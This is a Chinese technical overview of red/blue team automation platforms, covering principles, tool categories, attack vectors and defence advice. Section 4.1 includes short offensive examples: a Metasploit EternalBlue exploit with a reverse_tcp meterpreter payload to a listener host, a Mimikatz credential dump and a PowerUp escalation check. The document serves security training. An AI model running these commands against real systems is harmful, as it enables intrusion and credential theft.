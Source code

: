 # 红蓝对抗自动化平台技术文档

## 1. 概述

### 1.1 定义
红蓝对抗自动化平台（Red Team/Blue Team Automation Platform）是一种通过自动化工具和流程模拟攻击（红队）和防御（蓝队）活动的安全测试平台。其核心目标是提升组织的安全防御能力，通过模拟真实攻击场景，发现并修复潜在的安全漏洞，同时优化防御策略和响应机制。

### 1.2 背景
随着网络攻击的复杂性和频率不断增加，传统的手动安全测试方法已无法满足现代企业的需求。红蓝对抗自动化平台通过集成自动化工具、机器学习算法和流程编排技术，能够高效、持续地模拟攻击和防御活动，帮助企业在动态威胁环境中保持主动防御能力。

---

## 2. 原理

### 2.1 红队自动化
红队自动化是指通过工具和脚本模拟攻击者的行为，包括漏洞扫描、渗透测试、横向移动、权限提升等。其核心原理是通过自动化工具链（如Metasploit、Cobalt Strike、Empire等）和自定义脚本，快速执行攻击任务并生成报告。

### 2.2 蓝队自动化
蓝队自动化是指通过自动化工具和流程检测、响应和缓解攻击行为。其核心原理包括日志分析、威胁检测、事件响应和修复。常用工具包括SIEM（如Splunk、ELK）、EDR（如CrowdStrike、Carbon Black）以及自动化响应平台（如SOAR）。

### 2.3 红蓝对抗的闭环流程
红蓝对抗自动化平台通常遵循以下闭环流程：
1. **攻击模拟**：红队工具执行攻击任务。
2. **检测与分析**：蓝队工具检测攻击行为并分析其影响。
3. **响应与修复**：蓝队工具自动或半自动响应攻击，并修复漏洞。
4. **反馈与优化**：根据对抗结果优化攻击和防御策略。

---

## 3. 分类

### 3.1 基于功能的分类
- **攻击模拟平台**：专注于模拟攻击行为，如Atomic Red Team、CALDERA。
- **防御检测平台**：专注于检测和响应攻击，如SIEM、SOAR。
- **综合对抗平台**：集成攻击和防御功能，如MITRE ATT&CK Evaluations。

### 3.2 基于部署方式的分类
- **本地部署**：在企业内部部署，适用于高安全性要求的场景。
- **云端部署**：基于云服务提供，适用于灵活性和扩展性要求较高的场景。

### 3.3 基于技术栈的分类
- **开源平台**：如CALDERA、Atomic Red Team，适合定制化需求。
- **商业平台**：如Cobalt Strike、CrowdStrike，提供更完善的功能和支持。

---

## 4. 技术细节

### 4.1 红队自动化技术
#### 4.1.1 漏洞扫描与利用
使用工具如Nmap、Nessus进行漏洞扫描，并结合Metasploit进行漏洞利用。以下是一个简单的Metasploit示例：
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.1
exploit
```

#### 4.1.2 横向移动
使用工具如Mimikatz、PsExec进行横向移动。以下是一个Mimikatz示例：
```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

#### 4.1.3 权限提升
使用工具如PowerUp、WinPEAS进行权限提升。以下是一个PowerUp示例：
```powershell
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### 4.2 蓝队自动化技术
#### 4.2.1 日志分析
使用SIEM工具（如Splunk）进行日志分析。以下是一个Splunk查询示例：
```spl
index=main sourcetype=access_combined status=500 | stats count by src_ip
```

#### 4.2.2 威胁检测
使用EDR工具（如CrowdStrike）进行威胁检测。以下是一个CrowdStrike查询示例：
```bash
falconx query -q "process_name:cmd.exe AND parent_name:explorer.exe"
```

#### 4.2.3 自动化响应
使用SOAR工具（如Phantom）进行自动化响应。以下是一个Phantom playbook示例：
```yaml
- name: Block IP
  action: block_ip
  parameters:
    ip: "{{ event.src_ip }}"
```

---

## 5. 攻击向量说明

### 5.1 常见攻击向量
- **初始访问**：钓鱼邮件、漏洞利用、凭证窃取。
- **执行**：恶意脚本、二进制文件、PowerShell命令。
- **持久化**：注册表修改、计划任务、服务创建。
- **权限提升**：内核漏洞利用、配置错误利用。
- **横向移动**：Pass the Hash、Pass the Ticket、RDP劫持。
- **数据窃取**：文件传输、数据库导出、云存储访问。

### 5.2 攻击向量示例
以下是一个典型的攻击向量示例：
1. 通过钓鱼邮件获取初始访问权限。
2. 使用PowerShell执行恶意脚本。
3. 通过Mimikatz窃取凭证。
4. 使用PsExec进行横向移动。
5. 通过RDP访问目标系统并窃取数据。

---

## 6. 防御思路与建议

### 6.1 防御思路
- **纵深防御**：在网络、主机、应用等多个层面部署防御措施。
- **最小权限原则**：限制用户和系统的权限，减少攻击面。
- **持续监控**：通过SIEM和EDR工具实时监控威胁。
- **自动化响应**：使用SOAR工具实现快速响应和修复。

### 6.2 防御建议
- **定期红蓝对抗演练**：通过自动化平台定期进行红蓝对抗演练，发现并修复漏洞。
- **威胁情报共享**：与行业伙伴共享威胁情报，提升整体防御能力。
- **员工安全意识培训**：通过培训减少钓鱼攻击的成功率。
- **漏洞管理**：定期扫描和修复漏洞，减少攻击面。

---

## 7. 总结
红蓝对抗自动化平台是现代企业提升安全防御能力的重要工具。通过模拟真实攻击场景和自动化防御流程，企业能够更高效地发现和修复漏洞，优化防御策略。然而，红蓝对抗自动化平台并非万能，仍需结合其他安全措施和人员培训，才能构建全面的安全防御体系。

---

*文档生成时间: 2025-03-17 14:11:17*
